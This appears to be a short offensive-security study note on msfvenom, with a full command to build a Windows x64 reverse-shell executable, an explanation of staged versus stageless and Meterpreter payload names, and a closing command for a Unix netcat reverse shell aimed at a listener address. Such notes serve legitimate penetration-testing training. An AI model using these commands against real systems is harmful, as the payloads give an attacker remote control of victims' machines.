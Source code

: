 **To generate a Windows x64 Reverse Shell in an exe format, we could use:**
`msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:
`<OS>/<arch>/<payload>`  
  
For example:
`linux/x86/shell_reverse_tcp`  

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:
`windows/shell_reverse_tcp  `

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.
In the above examples the payload used was `shell_reverse_tcp`. This indicates that it was a _stageless_ payload. How? Stageless payloads are denoted with underscores (`_`). The staged equivalent to this payload would be:
`shell/reverse_tcp`

As staged payloads are denoted with another forward slash (`/`).
This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:
`windows/x64/meterpreter/reverse_tcp`  

A Linux 32bit stageless Meterpreter payload would look like this:
`linux/x86/meterpreter_reverse_tcp`  

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:  
`msfvenom --list payloads`
then you can grep with something like `grep "linux/x86/meterpreter"`

**To generate a reverse netcat shell**
`msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.119.173 LPORT=1234 R
`